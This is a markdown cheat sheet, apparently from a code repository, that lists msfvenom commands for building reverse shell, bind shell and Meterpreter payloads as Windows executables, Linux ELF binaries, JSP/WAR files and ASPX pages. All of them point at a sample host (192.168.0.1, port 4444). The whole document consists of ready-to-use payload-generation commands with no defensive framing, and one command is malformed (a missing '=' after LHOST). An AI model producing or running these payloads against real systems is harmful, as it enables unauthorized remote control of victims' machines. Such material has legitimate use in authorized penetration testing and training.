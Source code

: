 # MSFVENOM
## Windows Binary (.exe)
### 32 Bit (x86)
#### Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe
```

#### Bind Shell
```bash
msfvenom -p windows/shell_bind_tcp LPORT=4444 -f exe -o bind_shell.exe
```

##### Output in Hex, C Style, Exclude bad chars, Exitfunction thread
```bash
msfvenom -p windows/shell_bind_tcp LHOST=192.168.0.1 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

### 64 Bit (x64)

#### Reverse Shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe
```

#### Bind Shell
```bash
msfvenom -p windows/x64/shell_bind_tcp LPORT=4444 -f exe -o bind_shell.exe
```

#### Meterpreter
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe
```

## Linux Binary (.elf)
### 32 Bit (x86)
#### Reverse Shell
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f elf > rev_shell.elf
```

#### Bind Shell
```bash
msfvenom -p linux/x86/shell/bind_tcp  LHOST=192.168.0.1 -f elf > bind_shell.elf
```

#### Reverse Shell
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f elf > rev_shell.elf
```

#### Bind Shell
```bash
msfvenom -p linux/x64/shell/bind_tcp LHOST=192.168.0.1 -f elf > rev_shell.elf
```

# Java Server Pages (.jsp)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST192.168.0.1 LPORT=4444 -f raw > shell.jsp
```

## As .war
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f war -o shell.war
```

# Active Sever Pages Extended (.aspx)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f aspx -o rev_shell.aspx
```
